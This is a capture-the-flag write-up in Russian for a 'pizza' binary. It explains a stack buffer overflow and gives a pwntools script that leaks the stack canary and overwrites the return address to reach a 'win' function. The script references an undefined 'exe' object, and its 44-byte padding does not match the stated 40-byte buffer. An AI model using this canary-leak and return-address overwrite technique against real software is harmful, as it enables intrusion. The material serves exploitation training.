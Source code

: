 # Solution
Уязвимость переполнения буфера. Ошибка при чтении в буффер address, считывается 0x40 байт, размер буффера - 40 байт. 
Сначала нужно переполнить буфер, чтобы перезаписать младший байт канарейки (\x00), 
чтобы канарейка вывелась вместе со строкой адреса. 
После чего, зная канарейку можно переписать адресс возврата.

```py
from pwn import *

io = process("./pizza")

# do all pizza stuff
io.sendlineafter(b"2. Yes, but next time\n", b"1")
io.sendlineafter(b"What's your name?\n", b"al3x")
io.sendlineafter(b"What pizza do you want?\n", b"pepperoni")
io.sendlineafter(b"2. No\n", b"1")
io.sendlineafter(b"2. No\n", b"2")
io.sendlineafter(b"2. No\n", b"1")

# overwrite first byte of canary which is alwasy null with '\n'
# to make on stack string like: "A"*44 + "\n" + canary[1:]
io.sendafter(b"What's your address?\n", b"A"*44 + b"\n")
io.recvuntil(b"A"*44)
canary = u64(io.recv(8))
canary -= ord('\n') # null last byte to get rid of '\n'
log.info(f"Canary: {hex(canary)}")

# overwrite return address with win function
io.sendlineafter(b"2. No\n", b"2")

pl = b""
pl += b"A"*44 # padding
pl += p64(canary) # canary
pl += b"B"*8 # rbp
pl += p64(exe.symbols["win"]) # return address

io.sendlineafter(b"What's your address?\n", pl)

io.interactive()

```